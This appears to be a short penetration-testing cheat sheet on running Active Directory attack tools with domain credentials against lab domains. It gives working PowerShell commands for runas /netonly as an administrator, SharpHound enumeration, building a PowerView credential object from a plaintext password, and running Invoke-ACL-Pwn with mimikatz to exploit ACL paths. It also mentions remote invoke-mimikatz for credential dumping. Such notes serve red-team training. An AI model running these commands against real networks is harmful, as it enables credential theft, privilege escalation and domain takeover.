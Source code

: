 # With Domain Creds
## Run SharpHound remotely with creds
> This can be used to run any binary or powershell script remotely e.g. invoke-mimikatz

```powershell
# Switch to a world writable directory so we have permission to write files to disk
cd \windows\tasks

# the netonly command means creds are only used for network access
runas /netonly /user:lab.local\administrator cmd.exe

# verify we are using the correct creds using
net view \\WIN-8K30QDLT1AP.lab.local\

# run bloodhound remotely, pass -d argument to specify the domain name
C:\tools\SharpHound-v1.0.4\SharpHound.exe -d "lab.local"
```

## Run PowerView remotely with creds
1. Import powerview
```powershell
import-module .\powerview.ps1
```

2. Setup the credentials object
```powershell
$passwd = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("lab.local\administrator", $passwd)
```

## Run Invoke-ACL-Pwn Remotely with creds
```powershell
# add the -WhatIf flag to view pathes before exploitation
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```
